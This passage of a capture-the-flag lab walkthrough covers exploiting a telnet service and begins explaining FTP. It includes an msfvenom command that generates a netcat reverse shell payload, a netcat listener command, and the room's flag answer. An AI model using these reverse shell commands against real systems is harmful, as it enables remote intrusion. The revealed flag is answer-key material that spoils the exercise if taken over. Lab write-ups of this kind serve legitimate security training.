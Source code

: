 ![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/c4f225a2-f74d-4794-aa3d-cae2ed1b83e8)

`Y`

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:

`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`

-p = payload
lhost = our local host IP address (this is **your** machine's IP address)
lport = the port to listen on (this is the port on **your** machine)
R = export the payload in raw format

### What word does the generated payload start with?

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/7361bcc6-4830-4507-9d2a-ce48be3bc33f)

`mkfifo`

Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:

`nc -lvp [listening port]`

### What would the command look like for the listening port we selected in our payload?

`nc -lvp 4444`

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/628f04a6-8aa6-4df9-a9d7-c9fda85e9a35)

### Success! What is the contents of flag.txt?

> Because my device is faulty, the ip will be wrong in this question

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/a862c83e-98e1-4120-93b4-a1d93f78aba0)

`THM{y0u_g0t_th3_t3ln3t_fl4g}`

## Understanding FTP

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/cc5a9fd9-1837-4201-beef-d11d713b9803)

### What is FTP?

File Transfer Protocol (FTP) is, as the name suggests , a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this, and- as we'll come on to later- relays commands and data in a very efficient way.

### How does FTP work?

A typical FTP session operates using two channels:
